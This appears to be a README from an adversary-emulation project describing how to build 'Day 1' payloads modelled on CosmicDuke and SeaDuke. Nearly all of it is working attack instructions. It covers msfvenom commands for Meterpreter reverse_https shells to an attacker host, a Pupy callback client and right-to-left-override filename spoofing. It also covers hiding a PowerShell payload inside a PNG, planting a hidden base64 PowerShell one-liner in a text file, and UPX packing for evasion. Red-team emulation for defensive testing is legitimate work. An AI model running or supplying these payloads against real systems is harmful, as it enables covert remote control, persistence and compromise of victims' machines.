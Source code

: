 ### Create Day 1 Payloads

#### 1. CosmicDuke Payload (cod.3aka3.scr)

| Filename | Location | Description |
| ------ | ------ | ------ |
| cod.3aka3.scr | payloads/cod.3aka3.scr | Portable executable that uses right-to-left override character to disguise file extension |

1. Generate a Pupy-EC4 callback payload:

```
gen -o cod.3aka3.scr -f client -O windows -A x64 connect -t ec4 --host <attacker IP>:1234
```

2. On Windows attack platform, rename cod.3aka3.scr with right-to-left override character (<https://redcanary.com/blog/right-to-left-override/>)

    1. Windows key and type 'Character Map'; select open
    2. Scroll to the RTLO character (U+202E)
    3. Select the RTLO character, then click "select", then click "copy"
    4. Right click `cod.3aka3.scr`, then click "Rename"
    5. Move cursor to beginning of filename. Press "ctrl-v" to paste RTLO character, and hit "enter" to save the rename.
    6. The file should now be named "rcs.3aka3.doc"

![alt text](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/041515_2317_SpoofUsingR1.png)

Screenshot taken from: <https://resources.infosecinstitute.com/spoof-using-right-to-left-override-rtlo-technique-2/>

#### 2. Privilege Escalation Payload (monkey.png)

| Filename | Location | Description |
| ------ | ------ | ------ |
| monkey.png | payloads/monkey.png | Well formed PNG with embedded PowerShell-Meterpreter callback |

Steps to re-create:

1. Generate a PowerShell-formatted Meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh -o meterpreter.ps1
```

2. Transfer meterpreter.ps1 to Windows attack platform; embed meterpreter.ps1 into a PNG file using Invoke-PSImage (<https://github.com/peewpw/Invoke-PSImage>):

```
Import-Module .\Invoke-PSImage.ps1
```

```
Invoke-PSImage -Script .\meterpreter.ps1 -Out .\monkey.png -Image .\monkey.jpg
```

#### 3. Startup Folder Payload (strings64/hostui.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| strings64.exe | payloads/SysinternalsSuite/strings64.exe | Launches Meterpreter using CreateProcessWithToken API call

1. Generate PowerShell-formatted Meterpreter:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh-cmd
```

2. Copy the PowerShell 1-liner to clipboard. Your clipboard should look like:

`powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa=`

Do **not** copy the execution preamble (`%COMSPEC% /b /c start /b /min`)

3. Open `payloads/readme.txt`; paste the PowerShell-Meterpreter blog on line `816`. This line should look like:

`$javasvc = "powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa="`

#### 4. Persistent Service Payload (javamtsup.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| javamtsup.exe | payloads/SysinternalsSuite/javamtsup.exe | Reverse HTTPS Meterpreter service executable |

1. Generate a Meterpreter service-binary:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 -f exe-service -o javamtsup.exe
```

#### 5. SeaDuke Payload (python.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| python.exe | payloads/Seaduke/python.exe | Python Meterpreter compiled to EXE with PyInstaller |

1. Generate python-formatted Meterpreter:

```
msfvenom -p python/meterpreter/reverse_https LHOST=<attacker IP> LPORT=8443 -o python.py
```

2. Transfer python.py to Windows attack platform

3. Compile python.py into a portable executable using PyInstaller (<https://pypi.org/project/PyInstaller/>)

```
pyinstaller -F python.py
```

4. Pack the python.exe payload using UPX (<https://github.com/upx/upx>)

```
upx --brute python.exe
```
